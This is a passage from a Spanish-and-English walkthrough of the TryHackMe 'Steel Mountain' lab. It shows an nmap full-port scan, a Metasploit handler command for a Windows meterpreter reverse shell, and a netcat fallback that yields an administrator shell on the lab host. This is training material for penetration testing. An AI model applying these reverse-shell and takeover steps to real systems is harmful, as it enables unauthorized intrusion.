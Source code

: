 ``` sudo nmap -p- --open 10.10.254.83 -Pn -n --min-rate 5000 -vvv -oN escaneo ```
Para ponernos en escucha en nuestra máquina atacante para recibir la shell usaremos el comando ``` msfconsole -qx 'use exploit/multi/handler;set lhost tun0;set lport 4443;set payload windows/meterpreter/reverse_tcp;run' ```


![alt text](images/image-27.png)


![alt text](images/image-26.png)


Una vez realizados estos pasos simplemente reiniciaremos el servicio y al ejecutar nuestro archivo malicioso recibiremos en nuestra máquina atacante una nueva conexión. Y no una conexión cualquiera.



![alt text](images/image-25.png)


![alt text](images/image-28.png)


Parece que en mi caso el listener en Metasploit no está funcionando correctamente, por lo que usaré netcat para ponerme en escucha por el puerto que indicamos en el payload de msfvenom.


![alt text](images/image-29.png)


![alt text](images/image-30.png)


![alt text](images/image-31.png)


¡Eso es! Recibimos la shell correctamente, y como podemos ver somos el usuario administrador de la máquina y somos capaces de leer la última flag para poder completar la máquina de TryHackMe, bueno, no completamente ya que también nos insta a realizar la máquina sin el uso de Metasploit, pero eso lo dejaremos para otro día. Espero que os hay agustado, nos vemos en la siguiente, un besito :)


---------------------------------------------------------------------------------------------------------------------------------------------------


Hello again! I hope everything is going great. Today, we are going to tackle a TryHackMe machine called Steel Mountain, which is included in the Offensive Pentesting path. So let's get to work.

The first thing we'll do is download our VPN configuration file from TryHackMe. Once downloaded, we'll use the command sudo openvpn $yourfile.ovpn to connect to it. After this, we'll deploy our victim machine within the Steel Mountain room and we'll be ready to go.


![alt text](images/image.png)


As always, the first thing we'll do is launch an ICMP trace to the victim machine to verify that it is available and functioning. For this, we'll use the ping command.


![alt text](images/image-1.png)


```
